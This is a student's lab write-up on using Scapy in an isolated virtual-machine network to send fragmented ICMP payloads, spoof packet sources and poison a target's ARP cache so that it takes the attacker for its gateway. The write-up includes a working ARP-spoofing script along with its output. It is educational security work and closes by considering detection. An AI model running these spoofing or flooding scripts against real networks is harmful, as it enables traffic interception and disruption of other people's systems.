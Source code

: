 ##Lab 6 - Scapy Attacks on ARP (leading to MITM)

As in the previous lab, I have two Ubuntu VM's on an internal network with m0n0wall assigning IPs via DHCP.

Artist's rendering:

                  Attacker                  Target
             _______________          |*\_/*|________
            |  ___________  |        ||_/-\_|______  |
            | |           | |        | |           | |
            | |   0   0   | |        | |   0   0   | |
            | |     -     | |        | |     -     | |
            | |   \___/   | |        | |   \___/   | |
            | |___     ___| |        | |___________| |
            |_____|\_/|_____|        |_______________|
            _|__|/ \|_|_.............._|________|_
             / ********** \      |    / ********** \
            /  ************  \   |   /  ************  \
            -------------------- |  --------------------
                                 |
                                 |
                                 |
                   __/ ///////// /|
                  /              ¯/|
                 /_______________/ |
                |  __________  |  |
                | |          | |  |
                | | m0n0wall | |  |
                | |          | |  |
                | |__________| | /   
                |______________|/ ___/\
                |____>______<_____/     \
              / = ==== ==== ==== /|    _|_
            / ========= === ===/ /   ////
           / ========= === ===/ /   /  / 
          <__________________<_/    ¯¯¯


Warmup Exercise (A): <code>fragment(IP(dst=target)/ICMP()/("DEADBEEF"*25000))</code>

This command will send the payload of "DEADBEEF" 25000 times to the target machine.  By adding in a fragsize, it will fragment into byte segments of 500.

I found an elegant way to do this here [1]:

Note: <code> from scapy.all import *</code> is necessary as <code>from scapy import *</code> doesn't import the modules for my machine

      from scapy.all import *
      import netifaces as nt
      import sys
      
      target="192.168.1.104"
      packet = fragment(IP(dst=target)/ICMP()/("DEADBEEF" * 25000))
      frags=fragment(packet,fragsize=500)
      counter=1
      for fragment in frags:
            print "Packet number"+str(counter)
            print "======================================================="
            fragment.show() #displays each fragment
            counter+=1
            send(fragment)

![Scapy - Nice display!](/images/Lab6-DEADBEEF.png)

The attacking machine sent 406 packets with the payload "DEADBEEF" and it set the MF (More Fragment) bit flag.

Warmup Exercise (B):  <code>IP(src=target,dst=target)/TCP(sport=135,dport=135)</code>
From the attacker side, spoofing the source of the packet:

![Spoofed source](/images/Lab6-spoofed_src_and_des.png)

On the target side I did <code>sudo tcpdump -vv icmp</code> for Warmup Exercise 1 (with the payload) and received the following when attacked from first Ubuntu machine:

![DEADBEEF payload on target!](/images/Lab6-DEADBEEF_on_target.png)

**_Q1: What are the IP/MAC addresses of each VM and the host? Comment on the three pairs of addresses, their relationship to each other; how might these values have been assigned? What do the VMs and host believe is the default gateway?_**

The attacking machine has an IP of 192.168.1.105.  The target has 192.168.1.104.  m0n0wall has an IP of 192.168.1.1 and it's the known gateway for both Ubuntu machines.  m0n0wall assigns the IPs via DHCP that I set up using its GUI.

**_Q2. Examine the arp table (arp –a –n) on VM#1 and report any entries you find._**

I did some research on arp with <code>man arp</code>.
Unfortunately <code>arp –a –n</code> complains that "-a" is an unknown host but <code>arp</code> provides the table fine.
The only entry is that of the m0n0wall gateway.

**_Q3. Ping VM#2 from VM#1 and report any changes to the state of the ARP table after the ping._**

Before pinging the target machine, there was only the gateway registered in the cache, but after a successful ping the target with its MAC address was registered in the Arp cache.

**_Q4. Manually delete the entry for the VM#2 machine in VM#1s ARP table (arp –d <ip>). Then, run tcpdump or wireshark on VM#2 to view the network traffic. Ping VM#2 again from VM#1. Report on the traffic that you see and use it to explain the way in which VM#1 obtains VM#2's MAC address._**

<code>arp -d 192.168.1.104</code> successfully removed the entry.

<code>tcpdump -vv icmp</code> on the target machine revealed:

![tcpdump of ping](/images/Lab6-tcpdump_ping.png)

**_Q5. From VM#1, using everything observed so far, determine the MAC address of the gateway._**

I believe when I used dhclient to get an IP on boot it registered the MAC address of the gateway in the ARP cache:
m0n0wall.local has a MAC address of 08:00:27:f2:0f:ab

**_Q6. Complete the program by adding lines to the arp_callback method so as to fully specify the ARP reply; you can list the fields in an ARP packet by doing ls(ARP) in Scapy. Explain the rationale for each of your lines of code._**

So far, I have:

    arpout = ARP(op=1, hwdst="impersonating_mac",hwsrc=target_mac, pdst=192.168.1.104)
but I need to fully specify the rest of the values.  Also:

Note to self:

Look into using scapy's <code>arpcachepoison()</code>

Edit: No success with arpcachepoison with either specifying MACs or IPs.

Upon troubleshooting some errors in coding and other little things I realized that the biggest problem was that my two Ubuntu machines had the same MAC address--that will certainly confound the exercise.

After changing the MAC on my attacker machine, it didn't immediately come up until I pulled it up with:
    ifconfig -a
    ifconfig eth3 up

I am getting an ARP request.  There is a name resolution problem.  Perhaps I need a fourth VM that the target VM doesn't know about so that the attack machine can fulfill the request?
![Problem with Name Resolution](/images/Lab6-problem-name_resolution.png)

To clear the target VM's arp cache we can run:

    ip -s -s neigh flush all

The following header with explicit encoding was necessary:

    #!/usr/bin/env python # coding: utf-8
    
    
With the following code I believe I successfully placed the attacking VM into the poisoned ARP cache of the victim machine.
~~~~
#!/usr/bin/env python # coding: utf-8

###The SCAPY script (arpy.py) sees an ARP request from 
###the target machine (for any IP) and then responds to the ARP request
###with a crafted reply that provides the attacker’s MAC address.
###In doing so, the victim is fooled into believing that the requested IP resolves 
###in the local segment to the attacker’s MAC address.


from scapy.all import *
#### Adapt the following settings ####
conf.iface = 'eth3'
###
attack_IP = "192.168.1.105"
attack_mac = "08:00:27:f6:b4:f6"
target_mac = "08:00:27:4a:3e:fa"
target_ip = sys.argv[1]
impersonating_mac = sys.argv[2]
gw_IP = "192.168.1.1"
gw_mac = "08:00:27:f2:0f:ab"

#call the function whenever a new arp packet is sniffed
def arp_callback(pkt):
	#make sure it's arp, a request, and the target is the one asking
	if ARP in pkt and pkt[ARP].op==1 and pkt[ARP].psrc==target_ip:
		#get the packet
		arpin = pkt[ARP]
		#show it
		print("Received an ARP request")
		arpin.display()
		arpout = ARP()
		#make the reply arp packet
		arpout = Ether()/ARP(op="who-has", psrc=gw_IP, pdst=sys.argv[1], hwdst=target_mac)
		print("Sending an ARP reply")
		arpout.display()

		send(arpout, inter=2, loop=1)
		return arpout.sprintf("ARP reply sent!")
		
#main program

if len(sys.argv) !=3:
	print "Usage: ./arpy.py <target_IP> <impersonating_mac>"
	sys.exit(1)

#wait for up to 10 arps and call the arp_callback for each
while True:
	sniff(prn=arp_callback, filter="arp", count= 10)
~~~~	

The ARP response from the attacking machine:

![ARP Response on attacking machine](/images/Lab6-ARP_response.png)

The victim machine now thinks that the attacker is the gateway.  So when the victim tries to ping a non-existent 192.168.1.103, the response is from the attacking machine:
![Victim machine now thinks the attacker is the gateway](/images/Lab6-Thinks_attacker_is_gw.png)

The target's ARP cache has been successfully poisoned:
![ARP cache successfully poisoned](/images/Lab6-ARP_cache_poisoned.png)

**_Q7: Suppose that as a network administrator you wanted to write a SCAPY script that would detect an ARP spoofing attack such as the one conducted by arp.py. Give a high-level description of how your SCAPY script would work._**

I would look into work that has already been done in Bro scripting. [2]  I would look into current research into _active_ techniques to check each machine's ARP cache for suspicious gateways.  As far as using Scapy for this, I'd be happy to see how exactly this can be done!





[1]: http://rtoodtoo.net/fragmented-ip-packet-forwarding/
[2]: https://github.com/maxfeldman14/brospects/blob/master/arpspoof.bro
